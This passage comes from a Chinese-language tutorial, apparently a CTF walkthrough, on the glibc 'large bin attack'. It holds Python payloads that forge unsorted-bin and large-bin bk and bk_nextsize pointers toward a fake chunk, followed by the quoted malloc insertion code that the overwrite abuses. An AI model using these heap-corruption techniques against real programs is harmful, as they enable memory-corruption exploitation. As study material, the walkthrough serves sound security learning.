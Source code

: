 #### 3.large bin attack

​    接下来伪造unsorted bin的bk

 ```python
 content_addr = 0xabcd0100
 fake_chunk = content_addr - 0x20
 
 payload = p64(0)*2 + p64(0) + p64(0x4f1) # size
 payload += p64(0) + p64(fake_chunk)      # bk
 edit(7, payload)
 ```

​    效果图如下。

 ![image-20211226162705942](/images/heap/image-20211226162705942.png)

​    再伪造large bin的bk和bk_nextsize。

 ```python
 payload2 = p64(0)*4 + p64(0) + p64(0x4e1)  #size
 payload2 += p64(0) + p64(fake_chunk+8)   
 payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap
 edit(8, payload2)
 ```

![image-20211226162726927](/images/heap/image-20211226162726927.png)

​    那么为什么修改这些值呢，再回顾一下两个解链操作。

 ```c
 else// 插入
           {
             //解链操作，nextsize只有largebin才有
             victim->fd_nextsize = fwd;
             victim->bk_nextsize = fwd->bk_nextsize;
             fwd->bk_nextsize = victim;
             victim->bk_nextsize->fd_nextsize = victim;//fwd->bk_nextsize->fd_nextsize=victim
            }
           bck = fwd->bk;
       }
    }
  else
      victim->fd_nextsize = victim->bk_nextsize = victim;
 }
  mark_bin (av, victim_index);
 //解链操作2,fd,bk
  victim->bk = bck;
  victim->fd = fwd;
  fwd->bk = victim;
  bck->fd = victim;
 //fwd->bk->fd=victim
 ```
